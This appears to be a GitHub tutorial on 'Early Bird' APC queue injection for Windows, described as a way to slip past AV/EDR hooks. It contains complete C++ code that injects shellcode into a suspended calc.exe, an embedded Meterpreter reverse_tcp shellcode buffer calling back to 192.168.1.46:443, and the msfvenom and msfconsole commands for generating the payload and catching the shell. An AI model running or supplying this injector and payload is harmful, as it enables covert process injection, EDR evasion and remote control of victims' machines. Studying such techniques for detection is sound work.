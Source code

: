# Early Bird Injection

One of the main advantages of this technique over the regular APC Queue code injection, is that in Early Bird technique, the malicious behaviour takes place early on in the process initialization phase, increasing the likelihood of going under the radar of some AV/EDR hooks.

### Techniques

* A malicious program creates a new legitimate process (say calc.exe) in a suspended state
* Memory for shellcode is allocated in the newly created process's memory space
* APC routine pointing to the shellcode is declared
* Shellcode is written to the previously allocated memory
* APC is queued to the main thread (currently in suspended state)
* Thread is resumed and the shellcode is executed

#### early-bird.cpp

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>
#include <vector>

int main()
{
        unsigned char buf[] =
        "\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x31\xff\x8b\x72\x28"
        "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
        "\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
        "\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x50\x8b\x48\x18"
        "\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
        "\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
        "\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
        "\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
        "\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
        "\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
        "\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02"
        "\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
        "\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
        "\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
        "\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
        "\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
        "\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
        "\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
        "\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
        "\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
        "\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

    SIZE_T shellSize = sizeof(buf);
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
// create new legitimate process
    CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    HANDLE victimProcess = pi.hProcess;
    HANDLE threadHandle = pi.hThread;
// Allocate the space for shellcode within legitimate process
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;

    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
// APC is queued to the main thread
     QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
// Thread is resumed and the shellcode is executed
    ResumeThread(threadHandle);
}
```

### payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.46 LPORT=443 -f c
```

### listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

##### Tips :

* insert breakpoint at QueueUserAPC